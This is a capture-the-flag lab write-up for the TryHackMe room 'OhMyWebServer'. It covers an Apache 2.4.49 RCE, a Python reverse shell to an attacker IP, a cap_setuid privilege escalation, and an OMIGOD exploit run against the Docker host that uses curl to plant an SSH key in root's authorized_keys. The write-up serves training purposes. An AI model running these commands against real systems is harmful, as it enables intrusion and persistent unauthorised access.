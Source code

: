 ```yaml
---
title: "TryHackMe - OhMyWebServer"
author: Nasrallah
description: ""
date: 2022-11-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, cve, capability, getcap, metasploit, docker]
img_path: /assets/img/tryhackme/ohmyweb
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [OhMyWebServer](https://tryhackme.com/room/ohmyweb) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.205.62
Host is up (0.10s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0d188762a9379d391046d25160e56d4 (RSA)
|   256 91185c2c5ef8993c9a1f0424300eaa9b (ECDSA)
|_  256 d1632a36dd94cf3c573e8ae88500caf6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH 8.2p1 and 80 running Apache http web server 2.4.49.

Searching on [exploit-db](https://www.exploit-db.com/) we find that this apache version is vulnerable path traversal and remote code execution.

![](1.png)

## **Foothold**

There is a metasploit module available to exploit this vulnerability called `exploit/multi/http/apache_normalize_path_rce`, let's use it and set the options.

```terminal
msf6 exploit(multi/http/apache_normalize_path_rce) > set rhost 10.10.10.10
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost tun0
msf6 exploit(multi/http/apache_normalize_path_rce) > set rport 80
msf6 exploit(multi/http/apache_normalize_path_rce) > set ssl false 
```

Now let's run the exploit.

![](2.png)

Great! We got a shell. But i decided to get a full tty shell by setting up a listener on my machine and executing the following command on the compromised machine.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](3.png)

## **Privilege Escalation**

We can see that we're a docker container from the name of the host and from the hidden directory in root `/`.

![](4.png)

After some enumeration, checking the capabilities in the machine we find the following:

```terminal
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null 
/usr/bin/python3.7 = cap_setuid+ep
```

We python have the setuid capability, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).

![](5.png)

Run the following command to become root.

```bash
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](6.png)

After that we run `ifconfig` and find some interesting stuff.

```terminal
root@4a70924bafa0:/root# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4818  bytes 4205388 (4.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3304  bytes 689936 (673.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We see that our IP is `172.17.0.2`, this means there is another docker container at `172.17.0.1`.

Let's upload a [nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) static binary and scan that container.

```bash
root@4a70924bafa0:/root# chmod +x nmap 172.17.0.1 -p- --min-rate 6000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-10-28 07:36 UTC
Unable to find nmap-services!  Resorting to /etc/services
Failed to resolve "https:".
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000030s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:4D:1E:79:D8 (Unknown)
```

We found three open ports. The port 5986 is not common, so i searched for it on google an found it's vulnerable to remote code execution, here's the [exploit](https://github.com/AlteredSecurity/CVE-2021-38647/).

Let's upload the exploit to the compromised machine a run it.

![](7.png)

Great! we can execute command as root.

Let's upload our ssh public key and put in `authorized_keys` file using the following command:

```bash
python3 exploit.py -t 172.17.0.1 -c 'curl http://10.18.0.188/sirius.pub -o /root/.ssh/authorized_keys'
```

Now we can ssh into the machine as root without a password.

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

